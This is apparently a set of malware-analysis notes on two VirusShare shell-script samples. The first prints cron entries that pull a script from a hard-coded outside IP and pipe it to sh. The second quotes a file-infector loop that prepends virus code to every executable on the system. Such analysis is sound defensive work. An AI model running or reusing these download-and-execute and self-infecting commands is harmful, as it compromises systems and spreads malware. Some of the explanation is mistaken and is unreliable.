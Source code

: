 # VirusShare_775b04d9458a409e82ef05fb1b3dcc95.sh

## Summary
This script stops any firewalls, configures DNS server as 8.8.8.8. 
Then, it sets `/var/spool/cron/root` to execute specific command. 
The commands are: 
```
"*/5 * * * * curl -fsSL http://185.244.25.191/i.sh | sh" 
*/5 * * * * wget -q -O- http://185.244.25.191/i.sh | sh
``` 

Then, it creates and sets `/avr/spool/cron/crontabs/root` to execute the following commands:
```
"*/5 * * * * curl -fsSL http://185.244.25.191/i.sh | sh"
"*/5 * * * * wget -q -O- http://185.244.25.191/i.sh | sh"
```
Finally, it donwloads binary into `/urs/local/lib/.zh/`, change permission, execute it in background. 

## Notes

* The downloaded binary file is named as `  `. That is, using a space as its name. 

* If `/usr/lib/local/.zh` does not exist, use `mkdir` to create and use `wget` to download. Other wise, use `curl` to download. 

--------------------------------------------------

# VirusShare_1412382920bd2a7fdeec22f6f6f7b758.sh

This looks incomplete. `infect` variable not defined. 
## Summary
If not infected do the following. 
It checks `/tmp/vir-*` If nothing exists, it executes `$0 infect &`. So, this looks a part of other script. 

During infection, it executes:
```
    tail +25 $0 >>/tmp/vir-$$
    chmod 777 /tmp/vir-$$
    /tmp/vir-$$ $@
    CODE=$?
```
It prints the first lines into `/tmp/vir-$$`. 
Change permision, 
Execute the `/tmp/vir-$$` with `$@` as prameter. 


If infected do the following.
```
    find / -type f -perm +100 -exec bash -c \
    "if [ -z \"\`cat {}|grep VIRUS\`\" ]; \
    then \
        cp {} /tmp/vir-$$; \
        (head -24 $0 >{}) 2>/dev/null; \
        (cat /tmp/vir-$$ >>{}) 2>/dev/null; \
        rm /tmp/vir-$$; \
    fi" \;
    CODE=0
```
This find the file name `bash` from root dir. 
The file type should be a file (`-type f`) and with permision `100`.
The `-exec` option is followed by a command (`bash` in this case)
